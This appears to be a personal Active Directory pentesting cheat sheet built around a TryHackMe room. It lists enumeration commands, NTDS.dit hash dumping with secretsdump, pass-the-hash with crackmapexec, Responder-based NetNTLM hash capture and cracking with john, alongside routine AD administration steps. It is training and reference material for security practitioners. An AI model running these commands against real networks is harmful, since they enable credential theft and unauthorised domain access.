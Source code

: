 ```yaml
---
title: Active Directory Pentesting
description: Active Directory (AD) is a directory service developed by Microsoft for Windows domain networks.
tags:
    - Active Directory
    - Privilege Escalation
    - Windows
refs:
    - https://tryhackme.com/room/adenumeration
date: 2023-07-19
draft: false
---
```


## Enumeration

**[Seatbelt](https://github.com/GhostPack/Seatbelt)** is an enumeration tool.

### From Outside

```sh
# Domain Controllers (DNS) discovery
dig @<target-ip> <domain-name> any
ffuf -u https://FUZZ.example.com -w subdomains.txt -mc 200,301,302,403
gobuster dns -d example.local -w subdomains.txt -t 25

# Dump password hashes from ntds.dit and system.hive
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL -outputfile hashes
# If we want NTLM hash only in dumped hashes, cut each line.
cut -d: -f3,4 hashes.ntds > hashes.txt
# We can use the file for brute forcing SMB credentials. For example,
crackmapexec smb <target-ip> -u <username> -H hashes.txt
```

### From Inside

```sh
# List all users in the AD domain
net user /domain
# Specific user
net user <username> /domain
PS> Get-ADUser -Identity <username> -Server dc.example.com -Properties *
# Filters
PS> Get-ADUser -Filter 'Name -like "*michael"' -Server dc.example.com | Format-Table Name,SamAccountName -A

# List all groups of the AD domain
net group /domain
# Specific group
net group "<group>" /domain
PS> Get-ADGroup -Identity <group> -Server dc.example.com -Properties *
# List the group members
PS> Get-ADGroupMember -Identity <group> -Server dc.example.com

# List the password policy of the AD domain
net accounts /domain

# List AD objects
PS> $ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00)
PS> Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server dc.example.com

# Retrieve information about the given domain.
PS> Get-ADDomain -Server dc.example.com

# Change the password of the AD user
PS> Set-ADAccountPassword -Identity <username> -Server dc.example.com  -OldPassword (ConvertTo-SecureString -AsPlaintext "oldpass" -force) -NewPassword (ConvertTo-SecureString -AsPlaintext "newpass" -force)

# SYSVOL - A shared folder storing the Group Policy Objects (GPOs).
dir \\dc.example.com\SYSVOL\
```

### Microsoft Management Console (mmc)

To setup the AD, follow this instructions:

1. Right-click on the Windows icon.
2. Click **"Run"** and enter **"mmc"** then click **"OK"**.
3. In the MMC, click **"File → Add or Remove Snap-ins"**.
4. Add all three **"Active Directory…"** snap-ins.
5. Right-click on the **"Active Directory…"** in the left pane and select **"Change Forest"**.
6. Enter the domain  as the Root domain and click OK.
7. Click on **"View → Advanced Features"**.

<br />

## Naming Convention

If we found usernames list in Active Directory, we can modify usernames with naming convention.  
For instance,

```txt
john smith   -> jsmith, j.smith
michael pole -> mpole, m.pole
```

<br />

## SSH Login with AD Credentials

```sh
ssh dc.example.com\\<ad_username>@sub.dc.example.com
```

<br />

## Inject Credentials into Memory

```powershell
# /netonly: All network communications will use these injected credentials for authentication.
runas.exe /netonly /user:<domain>\<username> cmd.exe
```

<br />

## DNS Configuration

```powershell
# PowerShell
$dnsip = "<DC_IP>"
$index = Get-NetAdapter -Name 'Ethernet' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```

Now check if the configuration is set correctly.

```powershell
nslookup dc.example.com
```

<br />

## Basic Knowledge

### User Management

- **Delegation**

    In Active Directory, the administrator delegate another user to manage users over an Organizational Unit (OU),  without the admin privileges.

    1. Setup

        1. Open "Active Directory Users and Computers".
        2. Right-click on the target OU, and click “Deligate Control…”. Then the new window will open.
        3. In the window, input username who you want to delegate the privilege that manage users.
        4. Select tasks to which the delegated user should manage.
        5. Click OK.

    2. Manage Users

        1. Logon as the delegated user.
        2. For instance, if you want to reset the john's password, execute the following command in PowerShell. Then input new password in prompt.

            ```powershell
            Set-ADAccountPassword john -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
            ```
        
        3. The first time John logs on after that, we want John to change his arbitrary password not the password you entered. So that to, execute the following command.

            ```powershell
            Set-ADUser -ChangePasswordAtLogon $true -Identity john -Verbose
            ```

        4. Now when John logs on he will be prompt to change a new password.


<br />

## Intercept NetNTLM Authentication

Start Responder to listen for any LLMNR, NBT-NS, WPAD requests.

```sh
sudo responder -I <interface-like-eth0>
```

Leave Responder running until receiving some requests.  
If you get NTLM hash, crack it in local machine.

```sh
echo -n '<copied-NTLM-hash>' > hash.txt
john --format=netntlmv2 --wordlist=wordlist.txt hash.txt
```

